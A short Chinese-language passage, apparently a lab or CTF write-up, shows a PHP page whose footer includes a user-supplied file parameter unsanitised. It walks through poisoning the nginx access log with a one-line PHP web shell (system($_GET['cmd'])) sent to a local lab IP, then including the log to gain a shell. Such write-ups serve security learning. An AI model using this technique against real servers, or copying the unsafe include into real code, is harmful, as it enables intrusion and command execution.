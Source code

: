 ```php+HTML
					<a href="about-us.php"><li>About Us</li></a>
					<a href="faq.php"><li>FAQ</li></a>
					<a href="contact.php"><li>Contact</li></a>
				</ul>
			</menu>
		</div>
		<div class="body-content">
			<h2>Thank You</h2>
				<p>Thank you for taking the time to contact us.</p>
		</div>
		<div class="footer-wrapper">
			<footer>
				<?php
					$file = $_GET['file'];
						if(isset($file))
						{
							include("$file");
						}
						else
						{
							include("footer.php");
						}
				?>
			</footer>
		</div>
	</div>
</body>
</html>
```

试了试伪协议写shell，但是失败了。

注意到服务器用了nginx(这里尝试写shell.php，访问发现失败了)：

![image-20210330174221610](image-20210330174221610.png)

突然一个大胆的想法冒了出来：

![image-20210330174323390](image-20210330174323390.png)

Nginx的日志记录似乎可以利用利用！

发送一个请求：

```
http://192.168.145.138/thankyou.php?file=<?php system($_GET['cmd']);?>
```

然后包含一下nginx的日志文件：

![image-20210330174739476](image-20210330174739476.png)

可算拿到shell了，不容易！
